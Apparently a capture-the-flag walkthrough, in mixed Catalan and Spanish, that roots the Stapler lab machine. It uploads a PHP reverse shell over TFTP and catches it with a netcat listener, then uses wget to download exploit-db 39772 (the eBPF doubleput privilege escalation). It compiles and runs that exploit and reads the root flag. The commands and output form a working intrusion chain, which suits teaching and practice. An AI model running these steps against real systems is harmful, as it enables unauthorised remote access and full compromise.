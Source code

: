 Amb el navegador Kali accediu a Github i descarregueu el fitxer php de reverse-shell:
```bash
https://github.com/pentestmonkey/php-reverse-shell
```

Deixeu-lo dins de la carpeta stapler.

A continuació, hem de modificar el codi font per indicar on voleu que es torni el shell invers (la vostra màquina Kali)

El $ip és l'adreça IP de la meva màquina Kali. Sabem que Kali està acostumat a fer servir el port 4444 amb Metasploit, de manera que també hauria de funcionar aquí.
Feu clic a Fitxer i des del menú contextual seleccioneu Desa. Obriu el fitxer i comproveu que s’han desat els canvis

### Obriu un terminal i configureu un oient mitjançant Netcat. Feu clic a Intro.
```bash
nc -lvnp 4444
┌──(kali㉿kali)-[~/stapler]
└─$ nc -v -n -l -p 4444
```

Antes intente cargar el codigo de php reverse shell dentro de una foto con exito, pero el servidor no interpreto el codigo php:
```bash
┌──(kali㉿kali)-[~/stapler]
└─$ jhead -cl "$(cat temp.txt)" reverse.jpg
```

Ver el contenido de la foto:
```bash
jhead reverse.jpg
```

## Ahora procedo a colocar el php para la reverse shell en el servidor mediante ftp:
```bash
┌──(kali㉿kali)-[~/stapler]
└─$ tftp 192.168.1.203

tftp> verbose
Verbose mode on.

tftp> put php-reverse-shell.php
putting php-reverse-shell.php to 192.168.1.203:php-reverse-shell.php [netascii]
Sent 3536 bytes in 0.1 seconds [323513 bit/s]
```

### Explicación:
1. Conectarte al servidor TFTP en la dirección 192.168.1.203: Al usar el comando tftp 192.168.1.203, iniciaste una sesión TFTP con el servidor que corre en esa dirección IP.

2. Habilitar el modo verboso: Al ingresar verbose, activaste el modo verboso, lo que hace que TFTP muestre más detalles sobre lo que está haciendo. Esto es útil para el diagnóstico y para entender mejor el proceso de transferencia.

3. Transferir el archivo: Con el comando put php-reverse-shell.php, enviaste el archivo php-reverse-shell.php desde tu máquina local al servidor. 

Ahora solo basta con colocar esto en la url para que se ejecute el php:
http://192.168.1.203/php-reverse-shell.php

Y ya tenemos acceso al sistema con privilegios limitados:
```bash
┌──(kali㉿kali)-[~/stapler]
└─$ nc -v -n -l -p 4444

listening on [any] 4444 ...
connect to [192.168.1.204] from (UNKNOWN) [192.168.1.203] 41108
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
 01:19:49 up  6:11,  0 users,  load average: 0.00, 0.02, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1028(www) gid=1028(www) groups=1028(www)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
```

### Escalar privilegios:

Mitjançant searchsploit descobrim que Ubuntu 16.04 32 bits disposa d’una vulnerabilitat que podem utilitzar per escalar privilegis, 39772.txt

Procedo a descsargar el exploit:
```bash

$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
--2024-03-02 03:12:04--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
Resolving gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
Connecting to gitlab.com (gitlab.com)|172.65.251.78|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7025 (6.9K) [application/octet-stream]
Saving to: ‘39772.zip’

     0K ......                                                100% 39.4M=0s

2024-03-02 03:12:04 (39.4 MB/s) - ‘39772.zip’ saved [7025/7025]

$ ls
39772.zip
autoroot.sh
README.md
xtra
$ unzip 39772.zip
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar  
$ ls
39772
39772.zip
autoroot.sh
__MACOSX
README.md
xtra
$ cd 39772
$ ls
crasher.tar
exploit.tar
$ tar xvf exploit.tar
ebpf_mapfd_doubleput_exploit/
ebpf_mapfd_doubleput_exploit/hello.c
ebpf_mapfd_doubleput_exploit/suidhelper.c
ebpf_mapfd_doubleput_exploit/compile.sh
ebpf_mapfd_doubleput_exploit/doubleput.c
$ ls
crasher.tar
ebpf_mapfd_doubleput_exploit
exploit.tar
$ cd ebpf_mapfd_doubleput_exploit
$ ls
compile.sh
doubleput.c
hello.c
suidhelper.c
$ chmod +x compile.sh
$ ./compile.sh
doubleput.c: In function ‘make_setuid’:
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
$ ls
compile.sh
doubleput
doubleput.c
hello
hello.c
suidhelper
suidhelper.c
$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
```

## En este punto ya soy root de la maquina.
```bash
id
uid=0(root) gid=0(root) groups=0(root),1028(www)
cd /root    
ls -la
total 208
drwx------  4 root root  4096 Mar  1 19:09 .
drwxr-xr-x 22 root root  4096 Jun  7  2016 ..
-rw-------  1 root root     1 Jun  5  2016 .bash_history
-rw-r--r--  1 root root  3106 Oct 22  2015 .bashrc
-rwxr-xr-x  1 root root  1090 Jun  5  2016 fix-wordpress.sh
-rw-r--r--  1 root root   463 Jun  5  2016 flag.txt
-rw-r--r--  1 root root   345 Jun  5  2016 issue
-rw-r--r--  1 root root    50 Jun  3  2016 .my.cnf
-rw-------  1 root root     1 Jun  5  2016 .mysql_history
drwxr-xr-x 11 root root  4096 Jun  3  2016 .oh-my-zsh
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rwxr-xr-x  1 root root   103 Jun  5  2016 python.sh
-rw-------  1 root root  1024 Jun  5  2016 .rnd
drwxr-xr-x  2 root root  4096 Jun  4  2016 .vim
-rw-------  1 root root     1 Jun  5  2016 .viminfo
-rw-r--r--  1 root root 54405 Jun  5  2016 wordpress.sql
-rw-r--r--  1 root root 39206 Jun  3  2016 .zcompdump
-rw-r--r--  1 root root 39352 Jun  3  2016 .zcompdump-red-5.1.1
-rw-------  1 root root    39 Jun  5  2016 .zsh_history
-rw-r--r--  1 root root  2839 Jun  3  2016 .zshrc
-rw-r--r--  1 root root    17 Jun  3  2016 .zsh-update
cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```
Un comando que puede ser util:
```bash
copiar elcontenido del fichero php en el portapapeles:
xclip -sel clip < php-reverse-shell.php 
```
